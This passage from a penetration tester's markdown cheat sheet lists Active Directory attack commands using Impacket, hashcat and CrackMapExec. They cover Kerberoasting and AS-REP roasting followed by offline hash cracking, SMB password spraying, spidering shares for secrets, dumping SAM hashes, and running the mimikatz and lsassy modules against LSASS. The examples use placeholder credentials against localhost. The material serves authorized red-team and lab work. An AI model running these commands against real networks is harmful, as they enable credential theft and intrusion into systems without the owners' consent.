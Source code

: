 * [hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/)


#### Impacket

* [github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)

```
$ git clone https://github.com/SecureAuthCorp/impacket
$ sudo python -m pip install --upgrade .
```

```
$ lookupsid.py MEGACORP/s.freeside:'Passw0rd!'@127.0.0.1 20000

$ GetUserSPNs.py MEGACORP/s.freeside:'Passw0rd!' -dc-ip 127.0.0.1 -save
$ ./hashcat64.exe -m 13100 -a 0 -w 4 -O --session=snovvcrash hashes/asprep.txt seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule

$ GetNPUsers.py MEGACORP/ -dc-ip 127.0.0.1 -k -no-pass -usersfile /usr/share/seclists/Usernames/Names/names.txt -request -format hashcat -outputfile asprep.txt | tee GetNPUsers.log
$ cat GetNPUsers.log | grep -v 'Client not found in Kerberos database'
$ ./hashcat64.exe -m 18200 -a 0 -w 4 -O --session=snovvcrash hashes/asprep.txt seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```


#### CrackMapExec

Install bleeding-edge:

```
$ git clone --recursive https://github.com/byt3bl33d3r/CrackMapExec ~/tools/CrackMapExec && cd ~/tools/CrackMapExec
$ sudo python3 -m pip install pipenv
$ pipenv install && pipenv shell
(CrackMapExec) $ python setup.py install
(CrackMapExec) $ sudo ln -s /home/snovvcrash/.virtualenvs/CrackMapExec/bin/crackmapexec /usr/bin/CME
(CrackMapExec) $ CME smb 127.0.0.1 -u 'anonymous' -p '' -M spider_plus
```

Use:

```
$ CME smb 127.0.0.1
$ CME smb 127.0.0.1 -u anonymous -p '' --shares
$ CME smb 127.0.0.1 -u snovvcrash -p /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt
$ CME smb 127.0.0.1 -u nullinux_users.txt -p 'Passw0rd!' --shares [--continue-on-success]
$ CME smb 127.0.0.1 -u snovvcrash -p 'Passw0rd!' --spider-folder 'E\$' --pattern s3cret
$ CME smb 127.0.0.1 -u j.doe -p 'Passw0rd!' -d 'CORP' --spider Users --pattern '.'
$ CME smb 127.0.0.1 -u snovvcrash -p '' --local-auth --sam
$ CME smb 127.0.0.1 -u snovvcrash -p '' -M mimikatz
$ CME smb 127.0.0.1 -u snovvcrash -p '' -M lsassy
```


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)